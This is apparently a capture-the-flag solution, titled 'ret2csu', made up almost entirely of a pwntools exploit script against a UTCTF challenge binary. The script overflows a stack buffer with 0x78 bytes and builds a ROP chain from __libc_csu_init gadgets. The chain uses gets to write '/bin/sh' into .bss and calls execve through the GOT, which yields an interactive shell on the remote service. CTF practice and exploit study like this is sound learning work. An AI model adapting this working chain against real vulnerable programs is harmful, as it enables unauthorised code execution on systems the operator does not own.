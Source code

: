 No prob, ret2csu:

```python  
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./AAAAAAAAAAAAAAAA',checksec=False)

if args.REMOTE:  
   p = remote('pwn.utctf.live', 5000)  
else:  
   p = process(binary.path)

'''  
 401210:   4c 89 f2                mov    rdx,r14  
 401213:   4c 89 ee                mov    rsi,r13  
 401216:   44 89 e7                mov    edi,r12d  
 401219:   41 ff 14 df             call   QWORD PTR [r15+rbx*8]  
 40121d:   48 83 c3 01             add    rbx,0x1  
 401221:   48 39 dd                cmp    rbp,rbx  
 401224:   75 ea                   jne    401210 <__libc_csu_init+0x40>  
 401226:   48 83 c4 08             add    rsp,0x8  
 40122a:   5b                      pop    rbx  
 40122b:   5d                      pop    rbp  
 40122c:   41 5c                   pop    r12  
 40122e:   41 5d                   pop    r13  
 401230:   41 5e                   pop    r14  
 401232:   41 5f                   pop    r15  
 401234:   c3                      ret  
'''

pop_rbx_rbp_r12_r13_r14_r15 = 0x40122a  
set_rdx_rsi_rdi_call_r15 = 0x401210  
pop_rdi = binary.search(asm('pop rdi; ret')).__next__()

payload  = b''  
payload += 0x78 * b'A'  
payload += p64(pop_rdi)  
payload += p64(binary.bss())  
payload += p64(binary.plt.gets)  
payload += p64(pop_rbx_rbp_r12_r13_r14_r15)  
payload += p64(0)  
payload += p64(1)  
payload += p64(binary.bss())  
payload += p64(0)  
payload += p64(0)  
payload += p64(binary.got.execve)  
payload += p64(set_rdx_rsi_rdi_call_r15)  
payload += 7 * p64(0)  
payload += b'\n'  
payload += b'/bin/sh\0'

p.sendline(payload)  
p.interactive()  
```
